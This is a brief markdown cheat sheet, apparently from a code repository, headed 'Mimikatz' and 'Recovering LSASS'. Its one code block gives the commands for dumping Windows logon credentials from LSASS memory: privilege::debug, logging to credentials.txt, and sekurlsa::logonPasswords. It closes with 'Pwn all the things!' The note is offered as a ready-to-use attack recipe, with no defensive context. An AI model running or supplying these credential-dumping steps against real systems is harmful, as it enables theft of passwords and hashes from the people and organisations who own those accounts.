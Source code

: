 # Mimikatz

## Recovering LSASS
```
Open an Administrative prompt
mimikatz.exe # privilege::debug
mimikatz(commandline) log credentials.txt
mimikatz(commandline) sekurlsa::logonPasswords
Pwn all the things!
```